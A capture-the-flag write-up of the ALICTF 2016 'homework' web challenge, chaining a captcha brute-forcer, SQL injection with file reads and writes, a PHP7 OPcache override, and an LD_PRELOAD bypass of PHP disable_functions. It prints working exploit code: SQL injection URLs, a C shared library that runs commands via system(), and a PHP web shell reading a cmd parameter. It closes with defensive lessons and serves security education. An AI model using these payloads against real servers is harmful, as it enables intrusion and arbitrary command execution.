




# [ALICTF 2016](http://alictf.com/): [homework]

**Category:** Web
**Points:** 400 (decreased to 340 by the solves)
**Solves:** 12
**Description:**

> It's time to submit your homework. 
> But I'm sure the teacher is too busy to check your homework.


## intro

First of all, this is a great, not so easy (maybe hard? ;) ),
involved, multistep web challenge, so big thx for the
organizers. The solution was a painful, hard work
by a couple of members from the RingZer0Team:
[Corb3nik](http://corb3nik.github.io/),
Flink and [me](https://ringzer0team.com/profile/3919/an0n).

To get some flavor about the complexity of the challenge,
here is a short list of the ingredients:

* MD5 brute forcing (to solve captcha)
* SQL injection (file upload)
* PHP7 file OPcache attack (execute arbitrary PHP code)
* bypassing `open_basedir` and `disable_functions` PHP restrictions
to execute arbitrary code on the target (the used technique
is quite interesting, keep reading further. ;) )


## writeup

Opening the challenge (which unfortunately is not available now,
after the competition) gives a login page and a sign up
link. (The sign up link didn't work for me, but getting
the url from the source resolved the issue.)


### defeating the login captcha

So the first task is signing up and logging in.
The only issue is to beat a not so hard captcha.



The captcha message is something like
`substr(md5(captcha), 0, 4)=c079`. This equation
can be solved easily and quickly e.g. for a 6-char captcha
string (of uppercase chars and digits) by brute
force. Here is a Python script for the brute-forcer
(by Corb3nik):

```python
#!/usr/bin/env python2

import hashlib, string, random, sys

while True:
  tmp = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(6))
  tmpHash = hashlib.md5(tmp.encode()).hexdigest()
  if tmpHash[0:4] == sys.argv[1]:
      print ("[*] Solved by " + tmp)
```

Okay, so this way signing up and logging in should not be a problem.


### exploring the interface

The application interface is simple, there is a file (image) upload
form with attachable comment, and the uploaded items are browsable,
each item has a _detailed_ view. Btw, it is clear that it is
a PHP application.



The uploader gives the user the pathname of the uploaded file
after uploading. After uploading, it is accessible through
the web server. Although this is an uploader for images,
it allows uploading everything, but it detects _dangerous_
files by extension: if the attacker tries to upload a PHP
file, the uploader script removes the content and overwrites
it with a warning message. So unfortunately we can not
upload PHP code easily this way.

Experimenting a little bit with the _detailed_ view, it
can be revealed that there is an SQL injection vulnerability
in the `id` GET parameter of `detail.php`.


### exploiting sql injection

So the SQL injection vulnerability is in the `id` GET parameter
of the `detail.php` script. It is easily exploitable by
`UNION SELECT` technique. Here is a PoC query:

```
http://121.40.50.146/detail.php?id=-1 union select 1337 %23
```


Note that query is terminated by comment character `#`
(url encoded as `%23`). With this technique one can easily
get information about the SQL server (it is MySQL 5.5.49
running on Ubuntu 14.04.1 LTS), the database, the tables, etc.
Dumping tables is also possible, but there is nothing
useful in it.



The most important thing is that we
can read files with the `LOAD_FILE()` function and
even write files with the `INTO OUTFILE` statement.
The only restriction should be the insufficient
permissions.

After a bunch of trying we can realize that reading
`/etc/passwd` is possible, but nothing from webroot.
(Btw, we do not know yet where is the webroot actually.)
Moreover, `/tmp` is writable and readable by the
SQL user:

```
http://121.40.50.146/detail.php?id=-1 union select X'31333337' into outfile '/tmp/_gU324' %23
http://121.40.50.146/detail.php?id=-1 union select load_file('/tmp/_gU324') %23
```

Note that we can use `X'31333337'` to inject `1337` (or anything else)
by hex codes. This will be important later.


### web dir recon

At this part we can not get deeper without additional information
about the target system. It would be obvious to scan the web directory
with e.g. [dirb](http://dirb.sourceforge.net/), but unfortunately
using automated scanners in this CTF is prohibited. However, probing
for common things manually we can find an essential information source:

```
http://121.40.50.146/phpinfo.php
```

This leak will be critical by itself, but we can find one more
interesting file in the webroot, a `readme.html` containing
this text:

```
Homework System Installation:
1. Unzip the package in an empty directory and upload everything.
2. Open install.php in your browser. It will take you through the process.
3. Delete install.php.

Judge Plugin(Optional):
Make sure mysql 5.2.0 or above is installed. Then compile and install as usual:
1. Unzip the package in an empty directory and upload to /tmp.
2. Compile and install as usual:
cd /tmp
chmod 777 -R ./
./configure
make
make install
```

What is the point of this? That is we can assume `/tmp` is world-writable
recursively. (This was partly confirmed by the above SQL injection exploit.)


### PHP7 Zend OPcache exploit

Analyzing the leaked `phpinfo` we can find interesting things besides
common informations like versions, webroot, directories, variables, etc.
There is a mandatory info here: the PHP engine running on the
web server is a `PHP7` and it has `Zend extension` enabled, moreover
it supports `Zend OPcache` feature with `File Cache` option enabled.
Furthermore, the `opcache.file_cache_only` option is turned on and
we can see that the file cache root directory is `/tmp/OPcache`.


What does this mean? The PHP engine stores a binary opcode cache
version of the executed PHP script in the folder `/tmp/OPcache`
(in order to speed up the execution). If the binary opcode cache
file does not exist, it compiles and stores it, if it exists,
it takes it and executes it (instead of processing the original
one). Because there is no real validation in this scheme
(just matching the `system_id`), if an
attacker could rewrite the binary opcode cache of a PHP
script, he can execute arbitrary PHP code without overwriting
the original PHP script in the webroot.

Note, that according to the leaked `readme.html`,
the whole `/tmp` is world writable, so by exploting the above
SQL injection vulnerability we can write arbitrary files into `/tmp`.
Therefore if we could generate the correct binary opcode cache files,
we can run arbitrary PHP code on the target server.

Generating the correct binary opcode cache files is not
hard. It needs a locally running PHP7 installation with
Zend extensions. If the right options are enabled
(`opcache.enable_cli=1` for using `php-cli`,
`opcache.file_cache="/tmp/OPcache"`
or other dirs should work as well, `opcache.file_cache_only=1`
to prefer file cache over memory),
the binary opcode cache file gets generated when
running the PHP script (even from command line
using `php-cli`). The generated opcode cache files
reside at `/tmp/OPcache/[system_id]/[webroot]/[php_script_path].bin`.

Before uploading the binary file to the right
place, the so-called `system_id` of the target server have to be
generated and replaced in the generated binary.
It can be calculated from various data found in `phpinfo`.
Fortunately, there is an automated tool for this by *GoSecure*:
[system_id_scraper.py](https://github.com/GoSecure/php7-opcache-override/blob/master/system_id_scraper.py).
Calculating the `system_id` with this tool results:
`39b005ad77428c42788140c6839e6201`.

Summarizing the attack:

1. Create the malicious PHP script (e.g. `payload.php`) to be executed on the target.
2. Execute the script to generate the binary opcode cache: `php -f payload.php`.
The binary opcode cache should be generated as `/tmp/OPcache/[system_id]/[path_to_payload.php]/payload.php.bin`.
3. Replace the `system_id` in the binary `payload.php.bin` to match the target system
(bytes 9-40 in the binary).
4. Upload a dummy PHP file (e.g. `evil.php` using the *homework*
web app uploader form). Although uploaded file content is replaced,
we have the file path (e.g. `upload/20160606034418-evil.php`)
5. Make a hex digest of the patched binary opcode cache file.
6. Upload the patched binary opcode cache file to the right place on the remote server
(e.g. `/tmp/OPcache/39b005ad77428c42788140c6839e6201/var/www/html/upload/evil.php.bin`)
by exploiting SQL injection with `INTO OUTFILE` payload:
```
http://121.40.50.146/detail.php?id=-1 union select X'[hex_digest_of_payload.php.bin]' into dumpfile '/tmp/OPcache/39b005ad77428c42788140c6839e6201/var/www/html/upload/evil.php.bin' %23
```
7. Execute the malicious PHP by calling it (e.g. `http://121.40.50.146/upload/evil.php`)

Steps 3-7 are automated in our attached
[upload_payload.py](exploit/upload_payload.py) script
for experimenting easier with various PHP payloads.

This way we can upload and execute arbitrary PHP files
on the remote server. The only 'minor issue' we have is
that almost all of the useful PHP functions are disabled,
and the PHP has access only to `/tmp` and the webroot.

The restrictions from `phpinfo`:

> disable_functions = eval, base64_encode, base64_decode, preg_replace, assert, glob, imageftbbox, bindtextdomain, symlink, chmod, mkdir, is_dir, opendir, readdir, scandir, dir, realpath, dl, exec, system, passthru, popen, proc_open, shell_exec, pcntl_alarm, pcntl_fork, pcntl_waitpid, pcntl_wait, pcntl_wifexited, pcntl_wifstopped, pcntl_wifsignaled, pcntl_wifcontinued, pcntl_wexitstatus, pcntl_wtermsig, pcntl_wstopsig, pcntl_signal, pcntl_signal_dispatch, pcntl_get_last_error, pcntl_strerror, pcntl_sigprocmask, pcntl_sigwaitinfo, pcntl_sigtimedwait, pcntl_exec, pcntl_getpriority, pcntl_setpriority, readlink, stream_socket_server, fsocket, chroot, chgrp, chown, proc_get_status, ini_alter, ini_restore, openlog, fread, fopen, fgets, fgetss, file, readfile, file_get_contents, fpassthru, parse_ini_file, fputs, unlink
>
> disable_classes = DirectoryIterator, SplFileInfo
>
> open_basedir = /var/www/html/:/tmp/

So we can not execute system commands, list directories and access files
outside webroot and `/tmp`. By the way, at least `show_source` is allowed,
so we could get the source code of the web application, but this did not
help. We had a(n official) hint from the author of the
challenge that the flag is in `/` (and almost every cmd is disabled).
Therefore we should bypass these restrictions somehow...

Nevertheless, we have to say that our team was familiar with this
PHP7 Zend OPcache vulnerability because one of our members,
*Ian Bouchard* (alias *Corb3nik*) has just been released an article
recently detailing this exploit:
[Binary Webshell Through OPcache in PHP 7](https://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/)


### bypassing PHP restrictions

Although this is an old story, this part is quite tricky.
After a long research, we have found this the only way bypassing
the restrictions of PHP. The key is the `mail()` function
which is fortunately (or unfortunately) not disabled.
Mail sending by PHP `mail()` function is not an internal
implementation, but an external `sendmail` command execution.
(Note, that `sendmail_path` in `phpinfo` is `/usr/bin/firemail -t -i`,
which is not a special sendmail but it wants to be a hint.)

These kind of mechanisms are always dangerous, even in PHP, where there
is no sandboxing like environment for external command
execution. Therefore, while PHP is executing `sendmail`, the
configured restrictions (as well as `open_basedir`)
are not in effect. However, exploiting it requires
some creativity.

According to
[PHP mail manual](http://php.net/manual/en/function.mail.php),
the fifth parameter passed to `mail()` is `$additional_parameters`
which are passed to `sendmail` execution. Old sendmail implementations
supported parameters that are used for configuration reading from
file (`-C`) and debug log writing to file (`-X`). This could lead
to arbitrary file read bypassing `open_basedir` by writing the log
to `/tmp`. But unfortunately our sendmail does not support `-X`.
No problem, there is another, better method...

There is a well exploitable feature of GNU C library dynamic
linker for these kind of situations, where we are able to
execute a *specified* command but we want to execute an *other* code.
Just choose a dynamic library function of the
executable command. Compile a custom shared library
implementing that selected function with the code
to be executed, and override that function by
preloading the modified shared library. Preloading
is possible by setting the `LD_PRELOAD` environment
variable to the compiled shared library file.
This way arbitrary code can be executed without
PHP restrictions in effect.

The only conditions that must be met is that we
should be able to upload `.so` files (this is possible
even with the webapp uploader) and we should be
able to define environment variables before
calling `mail()`. This is also possible using
PHP `putenv()` (which is not disabled).

Our plan is to make a PHP script which executes
arbitrary system commands on the remote server
and displays its output.
Let the command be passed through e.g. the `cmd`
GET parameter to the script. The PHP script sets
the `LD_PRELOAD` variable to the malicious shared
library which overrides e.g. `geteuid()` with
our payload which executes the system command.
The system command should be passed to the
binary somehow, it can be done e.g. by putting
it also into the environment (`_evilcmd` variable)
by the PHP script. The output of the executed command
should be available by the PHP script, let it
write to a file (e.g. `/tmp/_0utput.txt`).

Let us assemble the ingredients. First, here is the
[shared library](exploit/evil.so)
[C source](exploit/evil.c)
which overrides `geteuid()`:

```c
/* compile: gcc -Wall -fPIC -shared -o evil.so evil.c -ldl */

#include <stdlib.h>
#include <stdio.h>
#include <string.h> 
 
void payload(char *cmd) {
  char buf[512];
  strcpy(buf, cmd);
  strcat(buf, " > /tmp/_0utput.txt");
  system(buf);
}   
 
int  geteuid() {
  char *cmd;
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
  if ((cmd = getenv("_evilcmd")) != NULL) {
    payload(cmd);
  }
  return 1;
}
```

Uploading it with *homework* app, uploader form
gives the path e.g. `upload/2016060600908-evil.so`

And the other part is the
[PHP script](exploit/payload.php),
which triggers the payload by setting `LD_PRELOAD` and
executing `sendmail` by calling `mail()`:

```php
<?php

$r1 = putenv("LD_PRELOAD=./20160606000908-evil.so");
echo "putenv: $r1 <br>";

$cmd = $_GET['cmd'];
$r2 = putenv("_evilcmd=$cmd");
echo "putenv: $r2 <br>";

$r3 = mail("a@example.com", "", "", "");
echo "mail: $r3 <br>";

show_source("/tmp/_0utput.txt");

?>
```

This should be deployed by the above OPcache exploit.

Once ready, we should be able to execute arbitrary
system commands on the remote system by calling:

```
http://121.40.50.146/upload/20160606001836-payload.php?cmd=echo ok
```

This one displays `ok`, so the exploit seems to be working.
Now we can experiment with system commands, unfortunately a lot of
them are disabled even at this level. Of course we can
implement anything without calling system commands with
a custom shared library, but we can solve the challenge by
finding smart command lines.

Even `ls` is disabled, we can list files by using `printf`
and `*` (wildcard): `printf "%s\n" /*` lists the files in root
(remember, listing files and even accessing `/` was restricted
by PHP).
There is an entry `/flag_is_H3r3_sir`, so it would be nice
to get the contents. The command `cat` is also disabled,
but the command `tac` (print lines as `cat`, but in reverse order)
is allowed. So the solution is:

```
http://121.40.50.146/upload/20160606001836-payload.php?cmd=tac /flag_is_H3r3_sir
```

And the flag is:

```
alictf{nk2csizy7od2feyt5un4mx7s891gilf4}
```



This is the end of a great web challenge which would be remembered
for a long time.


### lessons learned

Summarizing, each of the vulnerabilities are dangerous by itself,
but even fatal together. Remarks:

- It has nothing to do with the challenge, but this login / signup
captcha is useless because it can be solved automatically easily.
- An uploader for images should validate the uploadable files better.
Rather than blacklisting restricted types, but whitelisting allowed types.
- Everything should be done to avoid SQL injection, it can be
very dangerous. (See `mysqli_real_escape_string`.)
- World-writable directories are very dangerous even if it is just `/tmp`.
Setting strict permissions is a must for secure systems.
- Leaving unnecessary files in webroot may leak important
info about other vulnerabilites for attackers.
Unnecessary files should be cleaned out of the publicly available webroot.
- PHP 7 OPcache should be configured properly. The cache files
should be protected well. Insecure configuration may be fatal.
- PHP restrictions is not a real protection. There are too many
ways bypassing them. Do not trust in it itself. Securing PHP
environment should be done at OS level.


## writeups by teammates

[Corb3nik](http://corb3nik.github.io/alictf%202016/homework/)
